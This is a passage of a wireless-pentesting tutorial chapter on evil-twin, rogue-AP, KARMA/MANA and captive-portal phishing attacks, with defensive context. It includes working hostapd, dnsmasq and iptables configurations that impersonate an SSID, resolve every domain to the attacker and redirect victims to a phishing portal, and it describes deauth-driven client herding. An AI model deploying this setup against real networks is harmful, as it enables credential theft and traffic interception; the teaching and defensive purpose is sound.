









This is Chapter 4 of the Wireless notebook. The first three chapters were about **secrets already in the air**: Chapter 1 laid out the 802.11 security generations and the WPA2 four-way handshake, Chapter 2 turned that into muscle memory with the aircrack-ng suite, and Chapter 3 removed the need for a client entirely with the clientless PMKID attack. Every one of those techniques ends the same way — you walk off with a hash and crack it offline. If the passphrase is long and random, you lose.

This chapter attacks a completely different weakness: **the client's willingness to connect to the wrong access point**. You are not going to crack the network's key. You are going to *become* the network — stand up a radio that looks and sounds exactly like the target, convince a victim device (or its human) to associate with you instead of the real AP, and then either harvest a credential through a fake login page or sit in the middle of the victim's traffic. This is the family of attacks known as the **evil twin**, the **rogue AP**, the **KARMA/MANA** probe-response attack, and **captive-portal phishing**, and the headline framework for the last of these is **wifiphisher**.

These techniques matter enormously in the real world because they bypass the thing WPA2/WPA3 was designed to protect. A twenty-character random PSK is uncrackable in Chapters 2–3; it is completely irrelevant here, because a captive-portal evil twin never touches the PSK — it asks the *user* to type it (or their corporate password) into a page you control. This is where wireless pentesting stops being pure cryptography and becomes **radio plus social engineering plus MITM**, and it is exactly the class of attack that lands on real red-team engagements and in the news as "rogue Wi-Fi at the conference / airport / coffee shop".

Everything here is for **authorised testing only** — your own lab, your own devices, or an engagement with explicit written scope. Standing up a rogue AP that impersonates someone else's SSID, deauthenticating their clients, or presenting a fake login page to capture credentials is unambiguously illegal without authorisation (in the US, the Computer Fraud and Abuse Act and FCC rules against intentional interference; in the UK, the Computer Misuse Act; and local equivalents elsewhere). The FCC has issued seven-figure fines to hotels and venues purely for running deauth-based Wi-Fi blocking. Build the two-radio home lab described in Part 11 and practise there, against devices you own.

---

## Part 1: Where the Evil Twin Fits — From Cracking Keys to Stealing Trust

Every attack in Chapters 2 and 3 is an attack on **confidentiality of the key material**. You observe frames the AP and client legitimately exchange (the four-way handshake, or a PMKID), and you attack the PBKDF2-derived key offline. The network's defence is entropy: a long random passphrase defeats you.

The evil twin is an attack on **authentication of the access point** — or rather, the near-total *lack* of it in the way clients behave. In WPA2-Personal, the client proves to the AP that it knows the PSK, and (via the four-way handshake) the AP proves it knows the PSK too. But nothing binds a given SSID to a given piece of hardware. Two access points broadcasting the same SSID with the same security settings are, to a roaming client, **the same network**. That is a feature — it is how enterprise roaming between dozens of APs works — and it is the exact hole the evil twin drives through.

Here is the strategic shift in one line: **you stop trying to learn the victim's secret and instead make the victim hand it to you.** Three broad ways to do that:

1. **Open evil twin + captive portal.** Stand up an *open* (no-encryption) AP with the target's SSID, knock the victim off the real network so they roam to yours, and present a web page that says "enter the Wi-Fi password / your email / your corporate login to continue." The victim types the secret. This is wifiphisher's bread and butter and needs **no PSK at all**.
2. **Encrypted evil twin (WPA2-Personal).** Stand up a WPA2 AP with the same SSID and *ask for a PSK*. Because you don't know the PSK, you can't complete the four-way handshake — but you *can* capture the client's handshake attempt and validate a guessed PSK against it offline, or use a portal that confirms the PSK by trying it against a captured handshake. Tools like `airgeddon` automate this "handshake-confirmed portal".
3. **WPA-Enterprise evil twin.** Impersonate a corporate 802.1X/EAP network, present a RADIUS server you control, and harvest the **MSCHAPv2 challenge/response (a net-NTLMv1/v2-style hash)** from every device that tries to authenticate. Crack that offline to recover the user's Active Directory password. This is `hostapd-wpe` and `eaphammer` territory and is often the single highest-value wireless attack against an enterprise.



**Why this is a different threat model to defend.** A long PSK does nothing here. PMKID-hardening does nothing here. The defences that actually work are *client-side and protocol-side*: Protected Management Frames (802.11w) to stop the deauth that drives the roam, WPA3-SAE which mutually authenticates and resists the offline confirmation, and — for enterprise — strict **server-certificate validation** so the client refuses to talk to a RADIUS server whose cert it doesn't trust. We'll build every attack, then show exactly which defence neutralises it in Part 12.

**Red team usage:** on a physical/wireless engagement this is frequently how you get *domain* credentials without touching a single host — park near the building (or walk into the lobby), run an enterprise evil twin, and collect MSCHAPv2 hashes from phones and laptops that roam to you. **Bug bounty relevance is limited** (this is RF/physical, out of scope for almost all web programs) — so we won't force a bounty angle where there isn't an honest one — but the *captive-portal phishing* mechanics map directly onto CTF "rogue AP" challenges and onto the web-phishing skills you'll reuse everywhere.

---

## Part 2: The 802.11 Mechanics That Make Evil Twins Possible

To build a reliable evil twin you have to understand *why* a client leaves a perfectly good AP and joins yours. It comes down to four mechanisms baked into 802.11: **probing**, the **Preferred Network List**, **beacon/SSID matching**, and **signal-strength-driven roaming**.

### 2.1 Beacons — how the real AP advertises itself

An access point announces its presence roughly ten times a second by broadcasting a **beacon frame** (a management frame, subtype 8). The beacon carries the SSID, the supported rates, the channel, and — crucially — the **security parameters** in the RSN Information Element (RSN IE): whether the network is open, WPA2-PSK, WPA2-Enterprise, WPA3-SAE, and whether Protected Management Frames are required. A client builds its list of "networks in range" from beacons and from active probing.

Your evil twin will broadcast beacons **with the same SSID** and a security config chosen to match (or to be more attractive than) the real one. To a client, SSID + matching security = "this is my network."

### 2.2 Probe requests and the Preferred Network List (PNL)

Devices don't just wait for beacons. To find networks quickly (and to find *hidden* networks), a client periodically broadcasts **probe request** frames: "is `CorpWiFi` here? is `Starbucks` here? is `MyHomeNet` here?" It sends one for many of the SSIDs it has connected to before — that saved list is the **Preferred Network List (PNL)**. Any AP with a matching SSID answers with a **probe response**.

This is the crack that **KARMA** and **MANA** exploit (Part 8): if a device asks "is `MyHomeNet` here?", an attacker simply answers "yes, I'm `MyHomeNet`" — even though the attacker has no idea what that network is. The device, believing it found a saved network, associates. Modern OSes have narrowed this (they mostly stopped broadcasting the full PNL and stopped auto-joining *open* networks by SSID alone), which is why MANA added smarter heuristics — but plenty of embedded/IoT/older devices still leak their PNL and auto-connect.



### 2.3 Why the client roams to *you* — signal strength and the deauth push

A client generally sticks with the AP it's associated to until the signal degrades, then roams to the strongest AP advertising the same SSID. Two levers let an attacker win that decision:

- **Be louder.** A high-gain adapter physically closer to the victim (or simply transmitting at higher power) can out-shout the real AP. When the client re-evaluates, your BSSID has the better RSSI.
- **Force a re-evaluation with deauthentication.** You send a spoofed **deauth** frame (management subtype 12) that appears to come from the real AP's BSSID, kicking the victim off. When it reconnects and scans, it picks the strongest matching AP — ideally yours. This is the same `aireplay-ng --deauth` primitive from Chapter 2, now used not to grab a handshake but to *herd* the client onto the rogue AP. wifiphisher automates this continuously ("association jamming").

**The single most important defence to remember:** deauth frames are *unprotected* management frames. **802.11w / Protected Management Frames (PMF)** cryptographically protects deauth/disassoc so a spoofed one is ignored. On a PMF-required network your deauth does nothing, and the "push" half of the evil twin collapses — you're left relying on being louder or on the victim manually picking your open network.

### 2.4 The SSID + security match rule (and how it constrains you)

A client will only treat your AP as "the same network" if the SSID matches **and** the security type is compatible with what it has saved. If the victim has `CorpWiFi` saved as WPA2-Enterprise, a client that validates properly will not silently join an *open* AP named `CorpWiFi`. That's why:

- Against a **WPA2-Personal** target, an *open* evil twin + captive portal works because the user is doing the connecting manually and doesn't notice the padlock is gone — but a well-behaved auto-join won't happen.
- Against **WPA2-Enterprise**, you must impersonate 802.1X/EAP (hostapd-wpe/eaphammer), because that's what the saved profile expects.
- Against **WPA3-SAE**, an open or WPA2 twin won't match a WPA3-only profile, and SAE itself resists the offline confirmation trick — this is the attack largely failing by design (Part 12).

| Real network type | Evil-twin approach | Secret you harvest | Key defence that stops it |
|---|---|---|---|
| Open (no auth) | Open twin + captive portal | Anything the portal asks for | HTTPS/HSTS everywhere; user awareness |
| WPA2-Personal (PSK) | Open twin + portal, or PSK-confirming portal | The Wi-Fi PSK (typed by user) | PMF (blocks deauth); WPA3 upgrade |
| WPA2/WPA3-Enterprise (802.1X) | Rogue 802.1X AP + rogue RADIUS | MSCHAPv2 net-NTLM → AD password | Server-cert validation + CA pinning; EAP-TLS |
| WPA3-Personal (SAE) | Largely infeasible | — | SAE + mandatory PMF |
| Any (device leaks PNL) | KARMA/MANA | Association, then MITM | Disable auto-join; randomised MAC; no open auto-join |

---

## Part 3: Attack Taxonomy — Evil Twin vs Rogue AP vs KARMA/MANA vs Captive Portal

These four terms get used loosely and interchangeably; on a report or in an exam they mean specific things. Pin them down before we build anything.

- **Rogue AP** — the broadest term: *any* unauthorised access point attached to (or impersonating) a target environment. A cheap AP an employee plugs into the corporate LAN for convenience is a rogue AP (an "insider" rogue) — a genuine risk because it bridges the trusted wire to the air with weak security. An attacker's impersonating radio is also a rogue AP. "Rogue AP detection" on the blue-team side covers both.
- **Evil twin** — a *specific* rogue AP that **impersonates a legitimate network's SSID** to lure that network's clients. Every evil twin is a rogue AP; not every rogue AP is an evil twin.
- **Captive portal attack** — the *payload* delivered by an (usually open) evil twin: a web page that intercepts the victim's first HTTP request and returns a fake "sign in / enter password / firmware upgrade" page to phish a credential. The portal is how you turn "the victim is connected to me" into "I have their secret." wifiphisher is fundamentally a captive-portal framework with an evil twin bolted on the front.
- **KARMA / MANA** — probe-response attacks that don't target one named SSID but instead answer *whatever the client asks for*, impersonating networks from the client's PNL to make devices auto-connect. MANA is the modernised KARMA that works better against OSes that hardened against the original.



The rest of this chapter builds these bottom-up: first a rogue AP **by hand** (Part 4) so you understand every component, then the enterprise variant (Part 5), then the frameworks that automate it — wifiphisher (Parts 6–7), MANA/eaphammer (Parts 8–9) — then a full lab (Part 11) and defence (Part 12).

---

## Part 4: Building a Rogue AP by Hand — hostapd, dnsmasq, iptables

Before any framework, build the thing from parts. Every evil-twin tool is ultimately orchestrating these same components, and when a framework misbehaves (it will) you debug it by knowing what it's doing underneath. The stack is:

- **hostapd** — turns your Wi-Fi adapter into a software access point (the beacon/auth/assoc machinery).
- **dnsmasq** — a tiny combined **DHCP server** (hands the victim an IP) and **DNS server** (answers every lookup so the captive portal can hijack the first request).
- **iptables** — NAT/forwarding and the redirect that funnels the victim's traffic to your portal (or out to the internet if you want a working MITM).
- A **web server** (Python's `http.server`, Apache, or a portal framework) to serve the phishing page.

### 4.1 hostapd from scratch

**What it is:** `hostapd` ("host access point daemon") is the userspace daemon that implements AP-mode 802.11 — it emits beacons, handles authentication and association, and (for WPA) runs the four-way handshake as the authenticator. It's the same daemon most real Linux-based APs and routers use. If it's not installed:

```bash
sudo apt update
sudo apt install -y hostapd dnsmasq
# hostapd and dnsmasq auto-start as services on install; stop them so we drive them manually:
sudo systemctl stop hostapd dnsmasq
sudo systemctl unmask hostapd            # Debian ships it masked by default
```

Identify your AP-capable interface and confirm it supports AP mode:

```bash
iw dev                                    # list interfaces, e.g. wlan1
iw list | grep -A10 "Supported interface modes"
#   * AP            <-- must appear
#   * AP/VLAN
#   * monitor
```

Not every chipset does AP mode. The reliable adapters for this work are the same ones you use for injection in Chapter 2 — Atheros AR9271 (`ath9k_htc`), Ralink RT3070/RT5370 (`rt2800usb`), and Realtek RTL8812AU (with the aircrack-ng dkms driver). Onboard laptop cards frequently *can't* do AP mode, or can't do it and client mode at once.

Create a minimal **open** AP config, `hostapd-open.conf`:

```ini
interface=wlan1            # your AP-capable adapter
driver=nl80211            # modern mac80211 driver interface
ssid=CorpWiFi             # the SSID you are impersonating
hw_mode=g                 # 2.4GHz 802.11g; use 'a' for 5GHz
channel=6                 # match the real AP's channel for a convincing twin
auth_algs=1               # 1 = Open System auth
ignore_broadcast_ssid=0   # 0 = broadcast the SSID (visible)
```

Every line explained:

| Directive | Meaning | Why it matters for an evil twin |
|---|---|---|
| `interface` | Which adapter becomes the AP | Must support AP mode; keep separate from your uplink NIC |
| `driver=nl80211` | Use the mac80211/nl80211 stack | Standard for modern Linux Wi-Fi; almost always correct |
| `ssid` | Broadcast network name | Set to the **exact** target SSID to impersonate it |
| `hw_mode` | `g`=2.4GHz, `a`=5GHz | Must match the band the victim uses |
| `channel` | RF channel | Matching the real AP's channel makes the twin look native and eases roaming |
| `auth_algs` | 1=Open, 2=WEP/shared, 3=both | `1` for an open captive-portal twin |
| `ignore_broadcast_ssid` | Hide (1) or show (0) the SSID | `0` so the victim sees the familiar name |
| `wpa`, `wpa_passphrase`, `wpa_key_mgmt` | (added below) enable WPA2 | For an *encrypted* twin instead of open |

To instead build a **WPA2-Personal** twin (the encrypted variant, useful with a PSK-confirming portal), add:

```ini
wpa=2
wpa_passphrase=changeme12345      # what the client will actually authenticate against
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
```

Bring the AP up in the foreground so you can watch association events:

```bash
sudo hostapd hostapd-open.conf
# ...
# wlan1: interface state UNINITIALIZED->ENABLED
# wlan1: AP-ENABLED
# wlan1: STA 3c:5a:b4:11:22:33 IEEE 802.11: authenticated
# wlan1: STA 3c:5a:b4:11:22:33 IEEE 802.11: associated (aid 1)
# wlan1: AP-STA-CONNECTED 3c:5a:b4:11:22:33
```

That `AP-STA-CONNECTED` line is your victim associating. But right now they have no IP and no DNS — that's dnsmasq's job.

### 4.2 dnsmasq — DHCP + DNS in one

**What it is:** `dnsmasq` is a lightweight server that provides DHCP (leasing IP addresses) and DNS (resolving names). In a rogue AP it does two jobs: give the victim a working IP so their device is happy, and **answer every DNS query with our own IP** so that whatever hostname the victim's browser tries to reach, it lands on our captive portal.

First give the AP interface a static IP and subnet (this is the "gateway" the victim will use):

```bash
sudo ip addr add 10.0.0.1/24 dev wlan1
sudo ip link set wlan1 up
```

Config `dnsmasq-rogue.conf`:

```ini
interface=wlan1
dhcp-range=10.0.0.10,10.0.0.250,255.255.255.0,12h   # lease pool, 12-hour leases
dhcp-option=3,10.0.0.1                                # option 3 = default gateway = us
dhcp-option=6,10.0.0.1                                # option 6 = DNS server = us
address=/#/10.0.0.1                                   # resolve *everything* to us
# 'address=/#/10.0.0.1' is the captive-portal trick: the /#/ wildcard means every
# domain answers with 10.0.0.1, so any URL the victim opens hits our web server.
log-queries                                           # watch what the victim asks for
log-dhcp
```

Run it in the foreground:

```bash
sudo dnsmasq -C dnsmasq-rogue.conf -d
# dnsmasq: started, version 2.90
# dnsmasq-dhcp: DHCP, IP range 10.0.0.10 -- 10.0.0.250, lease time 12h
# dnsmasq-dhcp: DHCPDISCOVER(wlan1) 3c:5a:b4:11:22:33
# dnsmasq-dhcp: DHCPOFFER(wlan1) 10.0.0.42 3c:5a:b4:11:22:33
# dnsmasq: query[A] connectivitycheck.gstatic.com from 10.0.0.42
# dnsmasq: config connectivitycheck.gstatic.com is 10.0.0.1
```

That last pair of lines is gold: the victim's phone is doing its **captive-portal detection** check (Android hits `connectivitycheck.gstatic.com`, iOS/macOS hit `captive.apple.com`, Windows hits `www.msftconnecttest.com`). Because we answer it with our own IP and *don't* return the expected `204/Success` content, the OS concludes "a login is required" and **automatically pops the captive-portal browser** showing our page. This is why captive-portal phishing is so effective — the OS itself opens the phishing page for you.

### 4.3 iptables — redirect everything to the portal

Now force all victim HTTP/HTTPS to our web server. Enable forwarding and add NAT/redirect rules:

```bash
sudo sysctl -w net.ipv4.ip_forward=1

# Redirect all victim HTTP to our portal on :80
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
# Redirect HTTPS attempts to :80 too (they'll get a cert warning; see note)
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 443 -j DNAT --to-destination 10.0.0.1:80
```

